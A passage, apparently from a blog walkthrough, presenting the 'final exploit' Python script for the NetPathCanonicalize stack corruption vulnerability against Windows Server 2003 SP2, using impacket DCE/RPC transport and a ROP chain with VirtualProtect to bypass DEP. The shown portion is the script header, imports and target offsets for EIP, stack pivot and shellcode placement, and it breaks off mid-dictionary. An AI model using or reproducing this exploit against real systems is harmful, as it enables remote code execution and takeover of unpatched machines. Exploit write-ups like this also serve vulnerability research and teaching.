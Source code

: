 
After some ajustements and and code formating our final exploit looks like this:

{% highlight python %}
#!/usr/bin/python

# -*- coding: utf-8 -*-


##################################################################################
# 
# Vulnerability: NetPathCanonicalize Stack corruption
# Dep bypass with VirtualProtect
# Author: 0x4E0x650x6F
##################################################################################

import sys
from struct import pack
from string import ascii_uppercase
from random import randint
from random import choice
from impacket import uuid
from impacket import dcerpc
from impacket.dcerpc.v5 import transport
from impacket.structure import Structure


TARGETS = {
    "win2k3sp2": {
        # The avaliable space for rop + shellcode        
        "size":  508,
        # Size of the string where EIP will end up after 
        # triggering the crash
        "ldsize": 78,
        # Offset where EIP lands after triggering the crash 
        "retoffset": 4,
        # 98 of the 508 chars will not show on the stack
        # plus 8 bytes to aling EIP with initial ropery jumps
        "ploffset": 106,
        # Stack privot rop chain offsets
        "stkpivotoffset": [0, 18, 36, 56], 
        # To aling the stack and allow the shellcode to run 
        # properly we need to pre append 4 NOPS otherwize 
        # shellcode will crash
        "plnops" : 4,